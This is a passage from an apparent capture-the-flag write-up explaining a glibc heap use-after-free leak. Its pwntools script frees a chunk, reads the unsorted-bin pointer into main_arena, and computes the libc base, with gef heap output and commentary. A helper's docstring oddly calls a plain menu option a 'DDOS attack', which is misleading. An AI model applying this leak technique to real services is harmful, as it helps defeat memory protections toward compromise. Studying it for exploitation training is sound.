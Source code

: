 ```python

def exit():
    """
    launches a DDOS attack on the infrastructure
    """
    io.sendline("4")

io = start()

chunk_A = malloc(0x100, "A"*0x100)
chunk_B = malloc(0x100, "B"*0x100)

free(chunk_A)
print(read(chunk_A))
```

When we run it, the script prints `bytearray(b'x\xab\x7fc\x97\x7f\x00\x00x\xab\x7fc\x97\x7f\x00\x00')`, which the address `0x7f97637fab78`, two times. As we can see by issuing `x 0x7f97637fab78` in `gdb`, it outputs `0x7f97637fab78 <main_arena+88>:	0x0000555556907220`; it corresponds to the address of the `main_arena`, located in the libc, plus 88 bytes.
Here's how it works...
Using `gef`s `heap chunks` and `heap bins` commands, we can display the state of the heap :
```bash
gef➤  heap chunks
Chunk(addr=0x555556907010, size=0x110, flags=PREV_INUSE)
    [0x0000555556907010     78 ab 7f 63 97 7f 00 00 78 ab 7f 63 97 7f 00 00    x..c....x..c....]
Chunk(addr=0x555556907120, size=0x110, flags=)
    [0x0000555556907120     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555556907230, size=0x20de0, flags=PREV_INUSE)  ←  top chunk

gef➤  heap bins
[+] unsorted_bins[0]: fw=0x555556907000, bk=0x555556907000
 →   Chunk(addr=0x555556907010, size=0x110, flags=PREV_INUSE)
```
We can see that the chunk `A` was linked inside the unsorted bin, meaning that the `main arena` has two pointers (a `fd`, forward pointer, and a `bk`, backward pointer) pointing to the chunk `A`, itself having two pointers pointing inside the `main arena`; that is where our address `0x7f97637fab78` is coming from.
You might wonder why we had to allocate a 2nd chunk instead of just allocating `chunk_A`. That's because of something called "consolidation" : chunks of this size (0x110) are automatically "fused", consolidated, with the `top chunk` when freed, instead of being linked to the `unsorted bin`. The chunk `B` acts as a "guard" to prevent consolidation. Mind that any size for the chunk `B` would do.

We can then rebase our libc using `pwntools` by changing a few lines :
```python
io = start()

chunk_A = malloc(0x100, "AAAA")
chunk_B = malloc(0x100, "BBBB")

# Free chunk A
free(chunk_A)

# Read fd from chunk A
chunk_A_data = read(chunk_A)
main_arena_leak = u64(chunk_A_data[:8])
libc.address = (main_arena_leak - 88) - libc.sym.main_arena
log.info(f"libc : {libc.address:#x}")

# Free chunk B
free(chunk_B)
```
